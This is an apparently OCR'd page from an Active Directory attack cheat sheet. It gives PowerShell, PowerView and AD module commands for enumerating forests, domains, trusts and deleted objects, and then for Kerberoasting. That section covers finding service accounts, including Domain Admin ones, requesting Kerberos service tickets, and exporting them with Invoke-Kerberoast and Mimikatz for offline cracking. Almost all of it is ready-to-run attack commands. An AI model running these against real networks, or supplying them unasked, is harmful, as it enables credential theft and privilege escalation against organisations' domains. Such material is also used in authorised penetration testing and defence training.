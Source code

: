 ```
# AD Module
Get-ADForest
Get-ADForest -Identity <ForestName>
#Domains of Forest Enumeration
(Get-ADForest).Domains

# Powerview
# Get details about current Forest
Get-NetForest
Get-NetForest -Forest <Forest>

# Get all Domains in current Forest
Get-NetForestDomain
Get-NetForestDomain -Forest <Forest>

# Get global catalogs in current Forest
Get-NetForestCatalog
Get-NetForestCatalog -Forest <Forest>

# Map Forest trusts
Get-NetForestTrust
Get-NetForestTrust -Forest <Forest>
```
**Deleted objects:**
```
# AD Module
# You need to be in the AD Recycle Bin group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
### Kerberoasting
This configuration can only happen on a domain member with the `servicePrincipalName` attribute set. 
Get User Accounts that are used as Service Accounts:
```
# Windows binary
setspn -T offense -Q */*

# AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

#Powershell
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}

# Powerview
Get-NetUser -SPN
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
# Domain admins kerberostable
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  
```
Request a kerberos ticket (TGS) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local` to get it stored in the memory:
```
# AD Module
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "DOMAIN/account"
```
Extract the TGS:
```
# Powerview
Invoke-Kerberoast
Invoke-Mimikatz -Command '"kerberos::list /export"'
Request-SPNTicket -SPN "DOMAIN/username"
```